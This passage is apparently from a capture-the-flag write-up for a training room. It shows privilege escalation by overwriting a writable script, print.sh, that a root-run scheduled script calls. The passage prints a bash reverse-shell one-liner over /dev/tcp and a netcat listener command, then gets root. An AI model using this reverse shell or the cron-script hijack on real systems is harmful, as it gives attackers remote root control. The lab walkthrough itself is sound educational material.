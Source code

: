 -> The planner.sh execute another file called print.sh. Check that out

We are owner of this file so we could change the content and could upload an exploit.
Do this with `nano /etc/print.sh` and upload a rev shell bash command out of pentestmokey.
  
`bash -i >& /dev/tcp/$LHOST/$LPORT 0>&1`  
  
@local:  
Start a netcat listener on port 9001 and wait.  
`nc -lnvp 9001`.

BOOOM! Root.

`cat /root/root.txt`

###
**Task 1.3 solved**
### 

<a href="https://www.c-ville.com/wp-content/uploads/2013/04/Root-the-box-660x335.jpg" rel="follow"><left><img src="/assets/img/thm-images/root.jpg" />  
  

   
---
  
  
# <ins>What we learned:</ins>

1. Web enumeration with **dirsearch**
2. ftp enumeration with **ftp** and exploit with write permissions
3. Analyze wireshark files
4. Use **pspy** and exploit by scheduled scripts.





---  
  
[thmlink]: https://tryhackme.com/room/mrrobot
[dirsearch]: https://github.com/maurosoria/dirsearch
